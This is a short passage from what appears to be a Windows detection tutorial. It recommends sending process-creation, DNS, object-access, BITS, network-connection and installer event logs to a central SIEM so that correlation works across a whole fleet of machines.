Every one of these log sources is described here using local Event Viewer for teaching purposes, but none of it scales that way in a real environment. Ship all of it (4688, DNS Client, object access, BITS-Client Operational, 5156, MsiInstaller) to a centralized SIEM so the correlation described above can be automated and queried across the whole fleet, not just one endpoint at a time.